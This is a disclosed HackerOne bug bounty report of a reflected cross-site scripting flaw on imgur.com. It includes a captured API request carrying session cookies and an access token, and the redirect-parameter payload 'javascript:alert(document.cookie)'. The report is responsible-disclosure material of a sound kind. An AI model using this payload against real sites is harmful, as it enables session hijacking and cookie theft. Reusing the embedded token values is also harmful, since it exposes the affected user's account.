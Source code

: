 # xss reflected on imgur.com

## Report Details
- **Report ID**: 1058427
- **URL**: https://hackerone.com/reports/1058427
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-12-14T11:41:49.865Z
- **Disclosed**: 2022-01-22T05:09:48.521Z

## Reporter
- **Username**: ferdihermawan1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Steps to reproduce : 
- i log in to my account and navigate to see other profile
- i intercept the request then click Give Emerald

{F1115658}

Request look like : 
```
POST /account/v1/gifting/purchase?client_id=546c25a59c58ad7 HTTP/1.1
Host: api.imgur.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://imgur.com/user/hermawanferdi
Content-Type: application/json
Origin: https://imgur.com
Content-Length: 311
Connection: close
Cookie: postpagebeta=1; amplitude_id_f1fc2abcb6d136bd4ef338e7fc0b9d05imgur.com=eyJkZXZpY2VJZCI6ImM5YzdiYTIxLTAzMjgtNGJkZi05ZGQ2LTE4NDFmZTY2ZGI3Y1IiLCJ1c2VySWQiOiIxMTI1OTYxMzUiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE2MDc5MjQxNTE0MDcsImxhc3RFdmVudFRpbWUiOjE2MDc5MjQ5NzA1ODQsImV2ZW50SWQiOjIwLCJpZGVudGlmeUlkIjozNiwic2VxdWVuY2VOdW1iZXIiOjU2fQ==; is_emerald=0; __qca=P0-164562980-1607924155407; is_authed=1; IMGURSESSION=6bc49554ae5b60f78f6928698819d0aa; SESSIONDATA=%7B%22sessionCount%22%3A1%2C%22sessionTime%22%3A1607924534647%7D; IMGURUIDJAFO=98a32f615768bd72bcfd89f450ea3f8c7a8b83db9647ade587ead48ace80048a; G_ENABLED_IDPS=google; authautologin=b63b9adee68e2e6ff10c0524995762d1%7EhtH5HkdxlstYng81Zq26XEEq7fv7IRra; accesstoken=095cd3db32693c0127c479dfda1fd563c776bdcd; _nc=1; postpagebetalogged=1; frontpagebetav2=1; pp=4807269994624293; fpb-roll=28.099570399611384; __asc=5812397c1765fc71d7f51cf98df; __auc=5812397c1765fc71d7f51cf98df; _ga=GA1.2.509004379.1607924653; _gid=GA1.2.206575419.1607924653; _fbp=fb.1.1607924654910.554323515

{"gifter_id":112596135,"recipient_id":136516779,"amount":1,"redirect_url":"https://imgur.com/emerald/give-emerald?username=hermawanferdi&redirect=https://imgur.com/user/hermawanferdi","source":"User profiler","source_url":"https://imgur.com/user/hermawanferdi","anonymous":true,"post_id":null,"comment_id":null}
```

- i notice "redirect_url":"https://imgur.com/emerald/give-emerald?username=hermawanferdi&redirect=https://imgur.com/user/hermawanferdi"
- i copy the url and change the redirect parameter
- i change the redirect parameter with payload xss "javascript:alert(document.cookie)"
- i open the url on browser
- xss alert

{F1115659}

## Impact

reflected xss / xss attack

## Attachments
- Screenshot_2020-12-14_Imgur.png
- Screenshot_from_2020-12-14_12-56-53.png
